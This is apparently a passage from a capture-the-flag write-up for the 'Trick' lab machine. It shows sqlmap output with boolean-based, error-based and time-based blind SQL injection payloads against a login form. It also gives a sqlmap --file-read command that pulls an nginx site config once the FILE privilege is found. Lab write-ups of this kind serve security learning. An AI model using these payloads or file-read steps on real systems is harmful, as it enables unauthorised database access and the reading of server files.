 ```jsx
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=' OR NOT 2330=2330-- UqDX&password=as

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=' OR (SELECT 2943 FROM(SELECT COUNT(*),CONCAT(0x7171717671,(SELECT (ELT(2943=2943,1))),0x716a767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- LprK&password=as

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 2315 FROM (SELECT(SLEEP(5)))hstC)-- NpyJ&password=as
---
[05:58:38] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[05:58:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 05:58:38 /2025-07-05/

```

AND WE GOT A TIME BASED BLIND SQLi

```jsx
[06:01:23] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[06:01:23] [INFO] fetching database users privileges
[06:01:23] [INFO] resumed: ''remo'@'localhost''
[06:01:23] [INFO] resumed: 'FILE'
database management system users privileges:
[*] 'remo'@'localhost' [1]:
    privilege: FILE
```

Since we have file privs we can read the local file

We can get more information about the website in the nginx.conf file so looking for nginx.conf file in the default location ie /etc/nginx/site-enabled/default

```jsx
sqlmap -r sql.req --risk 3 --level 5 --batch --privileges --file-read=/etc/nginx/sites-enabled/default
```

and we got the file

```jsx

server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
```